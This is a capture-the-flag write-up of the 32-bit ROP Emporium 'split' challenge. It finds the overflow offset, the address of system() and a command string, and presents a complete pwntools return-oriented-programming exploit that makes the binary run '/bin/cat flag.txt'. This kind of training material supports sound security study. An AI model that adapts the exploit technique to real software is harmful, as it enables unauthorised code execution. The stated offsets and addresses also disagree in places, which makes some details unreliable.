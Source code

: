 ```yaml
---
layout: post
title: ROP Emporium Challenge 1 - Split (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *That useful string "/bin/cat flag.txt" is still present in this binary, as is a call to system(). It's just a case of finding them and chaining them together to make the magic happen.*
<!--more-->

# split32

Link: https://ropemporium.com/challenge/split.html


--------------------------


## 1. Calculating EIP overwrite offset

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 41 characters we see only one "41" in RIP registry:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg/Screenshot_1.jpg)


## 2. Studying the binary

We can find the system address with objdump, located in "0x08048430" (the address of system in the .plt section):

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg/Screenshot_3.jpg)

Next, we need the address of the string "/bin/cat flag.txt". We can do this using GEF, and finding the address is "0x601060":

```
gdb -q ./split32
break main
r
grep "/bin/cat flag.txt"
``` 

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg/Screenshot_4.jpg)

We can find the address of this string with ROPgadget too:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg/Screenshot_5.jpg)


## 3. Calling system("/bin/cat flag.txt")

The idea is concatenating the addresses (system) + (exit) + (command), just like in [here](https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/)

The problem is that there is not an exit function, so we will look for the instruction *leave*, I will take 0x080484e8:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg/Screenshot_2.jpg)

So now we have the addresses of "system" in .plt section, an instruction for "exiting" and the string with the command, we can make a Python exploit:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'split32'

p = process('./'+binary_name)
elf =  ELF(binary_name)

system  = 0x08048430 
command = 0x0804a030 
exit =    0x080484e8
log.info("system %s"  % hex(system))
log.info("command %s" % hex(command))

junk = "A"*44
rop = junk + p32(system) + p32(exit) + p32(command)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```


## 4. Final exploit

The exploit works:

![a](https://raw.githubusercontent.com/ricardojoserf/rop-emporium-exploits/master/1_split32/images/Screenshot_1.jpg/Screenshot_6.jpg)

Now we will change the calculation of some addresses making it automatic with Python:

```
system  = elf.sym["system"] #system  = 0x08048430 
command = next(elf.search('/bin/cat flag.txt')) #command = 0x0804a030 
exit =    0x080484e8
junk = "A"*44
rop = junk + p32(system) + p32(exit) + p32(command)
```

And it still works! Final exploit:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'split32'

p = process('./'+binary_name)
elf =  ELF(binary_name)

system  = elf.sym["system"] #system  = 0x08048430 
command = next(elf.search('/bin/cat flag.txt')) #command = 0x0804a030 
exit =    0x080484e8
log.info("system %s"  % hex(system))
log.info("command %s" % hex(command))

junk = "A"*44
rop = junk + p32(system) + p32(exit) + p32(command)
p.recvuntil("> ")
p.send(rop)
p.interactive()
```

---------------------------------

References: 

- https://bufferoverflows.net/rop-manual-exploitation-on-x32-linux/
